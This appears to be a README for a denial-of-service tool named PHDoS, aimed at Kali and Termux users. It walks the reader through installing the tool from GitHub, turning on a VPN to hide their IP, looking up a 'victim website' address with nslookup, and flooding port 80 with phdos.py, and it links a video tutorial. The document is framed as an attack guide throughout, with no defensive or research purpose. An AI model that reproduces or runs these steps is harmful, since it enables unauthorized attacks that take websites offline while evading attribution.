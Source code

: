 <b>Kali & Termux Compatible</b><br>
<b>Requirements:</b><br>
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install python2<br>
$ apt install python3<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/5inco/PHDoS

First you need to activate a vpn to change your ip

You need the <b>IP Address</b> of a website which you want to attack...<br>
New Terminal just type:<br>
$ <b>nslookup victimwebsite.com<b><br>
Get the IP Address of a victim website<br>

<b>Installation & Usage:</b><br>
$ cd PHDoS/<br>
$ ls<br>
$ python3 phdos.py -s [Victim ip Address] -p 80 -t 135<br>
example:<br>
$ python3 phdos.py -s xx.xxx.xxx.xxx -p 80 -t 135<br>
Video Tutorial Link: https://youtu.be/jA4Ecnm6WEk<br>

